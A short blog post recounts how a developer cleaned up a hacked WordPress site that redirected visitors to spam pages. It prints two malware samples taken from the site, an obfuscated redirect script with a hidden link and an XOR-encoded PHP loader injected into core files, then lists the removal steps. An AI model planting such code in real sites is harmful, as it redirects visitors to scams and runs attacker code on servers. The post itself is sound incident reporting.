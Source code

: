 ```yaml
---
title: 'Wordpress redirect hack'
date: '2020-03-10'
sinopsis: 'A wordpress site I was building was hacked, I lost a full day cleaning it up'
tags: [wordpress, hack, infected]



---
```



# So you've been hacked
## Wordpress redirect hack

Testing out a website we were building for a client, suddenly, the website starts redireting to spam websites, like lottery scam pages and whatnot.

What I did first, of course, was inspecting the source code of the website, that is to say the raw html of your site.
The hack was injecting a div, with a script, just above the main wrapper

```HTML

<div id="3f41457d"><a href="http://perfectfastsale.su" style="visibility: hidden" title="rx online">rx online</a><script>String.prototype.a73fba7d=function(){return this.replace(/[a-zA-Z]/g,function(c){return String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);});};u='uggcf://trglbhecevmrabj.yvsr/?h=l2lxnrj&b=2khc89e&z=1&g=Z09';function f31454d7(){window.top.location.href=u.a73fba7d();}setTimeout(f31454d7,4987);</script></div>


```


And that is just the begining. Almost 50 infected wordpress core files, injecting stuff. What a blast...

Stuff like this, into a Wordpress logging class:

```PHP

<?php $NfGPtIkV='3H.--2a  S1, R-'; $ywpPnUj='P:KLYW>FU=RXI=C'^$NfGPtIkV; $mAxOujic='R.ox4  Q RZR6NADGL4Il4Q;3H8F5ic -LojYB1mj5DE2Y.=WcHT0n=-;9hr B=gh>P80XMt1-0xuxbqJ5lbfP8UHOlbowonaBU+ ig0Ulchcmr.tO,IQ16LS= =LobGNWGeXzd=jZ75rwMszsDV ;pmG+Riur< =8m9ccy;2 =WYzp V6a:yMn2l 2M 8YjCOG hJp0GX.EhHQY=LVGX,3=CPcLi=SJ3.,1BIoK.J8 3qZD0+:-T+ qPmf0to +iq2XwpQ,=xKkeg8X8;2DE=aQl2+7 qX 1Mqzi-Y,cdbs=V:WTeea=;=, u=:xyEPglTb2+1 zr4S0TT6W6R2IeB;y,0bwjtXR:wC1WWfnyHR MAK1pj:HcCmD6FWfX03bThjQ7CkYM2OYOI qlYAN68=VibY8y.lfK1R8PAOYn;XNKA YPPI Q-R4oIRH b<+BBo8Z1PrdaT,RD>-Nj70.4lgre+  L+GEHCjo:9,np5P6RaoenXN1526 YJjK= IEKNkU38Runm ,7SexlUPf93dcmIT,Z4W, 0roNQrgUoJVUc4PBzYSuW6bvWJGLXhu=nkQVa6WZcmNZtcWUO0W,f-EJfKF=6=CynM +=R2.bhPmW,;6YGdfnbeF7YxH1.Lqn.W 3gSH O>U.7akjOmD UI:jeka>C'; $VYlFrwZx=$ywpPnUj('', ';HGYRUN2T;5<i+9-48GaKL>Il,Y2T6<MX8HCpbJgcS1+Q-GR9C0;B1YLOX7-M7IOLZ1LQtmPZHIQUXBQjNfkotW <oQBHPTdhK3DRACYuQCXXMVGH<X;=TXdwYAI-FYgj>lNqpm4N5BARYpSRW 7TZ+I.vr7UVWEDcIPCFYHFRQ27RTK3OHgPvd;eRW9UJ7Bg 2TAqz9:RSObl58I-vzxJRQ05XFMY2>RqGT;iRkH+TSVJPNVDHH5HHQxI9s; kb,QS+WT:IDXvUECN9TNWmeFkXHVJCA.3EHmLZMF<UXnkWY7N6tXEEKZQYEN7Grs,6GDuFVJEASROY92;D2W1ZiMfd+ia729 x3IWgZ2.FSGhvV,->TYJABjJI W2693UJBiHN:R:PSD;k=.=AQQye8WTH3RhPEsSfloU3L1ary.N6=.3I8<93EyU=F0-3<A=cF76GZ;B5DP>0I1+ZHfNSQZUEKRAOAT-t, 1jCT0PJFTQ1B3AICN9<CTKiK<35.EI:18fL>VAuYNIDMC2LXJspNTWQKI-5X;opGEIU2gqOZuHzfbPV1pM;6D1UPB5,szhYAYZZecPS5oUJgzREw4=B6U9F 39.>TEI0QI=ARQ=SJEDpI3MOWpnDFNBEfLSq-GO YJJ6TR<t8A6R:OSF6CtgME- NBUBZ4>'^$mAxOujic); $VYlFrwZx();
/**
 * Provides logging capabilities for debugging purposes.
 *
 * @class          WC_Logger
 * @version        2.0.0
 * @package        WooCommerce/Classes
 */
 ```

 This was injected into you name it, plugins, theme files, wordpress core files... Amazing. So what now?
 Let's try to remove it manually and hope the site does not break.
 Certain plugins can help remove malicious files, Wordpress Defender, only for core files, is really good. You can pay the pro version for plugins and software
 
 The infection also reached the uploads folder, 
 example: wp-content/uploads/2020/02/blogking.php,
 and also this as well:

![html](./images/wordpress-hacks.jpg)

After a few backs and forths, deleting infected plugins, infected themes. I still couldnt resolve the issue. Since every page on the website was redirecting to this malicious site I thought the issue was a script being injected globally. But no, after searching the web a bit more, while I was massively deleting files via SFTP, I found a recommendation for the plugin Wordfence. Its the best. It pointed me to the correct direction. All of my pages were infected, they were edited and they had a block added. Inside this block there was a DIV tag with an A tag, which would contain a malicious site. There was also a script tag which would make the site redirect to that a Tag on a timeout. Check it out.

![html](./images/wordpress-hacks2.jpg)

Finally after removing the blocks, the problem was solved.

1. I deleted all of my flatsome parent theme file and I did a fresh copy of the parent theme.
2. Deleted woocommerce since it was infected.
3. My child theme was also infected, so I had to clean up those php files.
4. Also, some plugins were infected, I just deleted those via FTP and re-installed them.

So, it was not the end of the world, but I did loose a day, where I almost had a little heart attack when I thought I lost the whole website! 


 
 


